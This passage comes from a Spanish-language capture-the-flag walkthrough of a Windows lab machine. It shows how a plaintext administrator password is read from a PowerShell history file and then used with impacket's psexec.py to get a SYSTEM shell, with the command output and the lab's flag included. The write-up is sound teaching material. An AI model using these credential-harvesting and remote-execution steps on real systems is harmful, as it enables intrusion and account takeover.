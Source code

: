 Vemos dos vías potenciales de explotación, por un lado el `SeImpersonatePrivilege` que podría ser vulnerable a un [[Juicy potato]]. Y por otro, un archivo de histórico, similar al `.bash_history` que podría contener credenciales.

Así que lo listamos:

```powershell
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

Mostrando:

```powershell
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit
```

Y vemos que hay credenciales en texto plano para el usuario `administrator`, con contraseña `MEGACORP_4dm1n!!`.

### Accediendo como administrador

Para conseguir una shell como administrador, utilizaremos otro módulo de [[impacket]], en este caso, `psexec.py`:

```shell
python3 psexec.py administrator@<ip>
```

Lo que nos da una shell de administrador (`nt_autority\system`):

```shell
Impacket v0.10.1.dev1+20230207.122134.c812d6c7 - Copyright 2022 Fortra

Password:
[*] Requesting shares on 10.129.238.95.....
[*] Found writable share ADMIN$
[*] Uploading file UXJjyeRa.exe
[*] Opening SVCManager on 10.129.238.95.....
[*] Creating service OaSR on 10.129.238.95.....
[*] Starting service OaSR.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2061]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

Ya solo queda buscar la flag que está en `C:\Users\Administrator\Desktop` (`b91ccec3305e98240082d4474b848528`).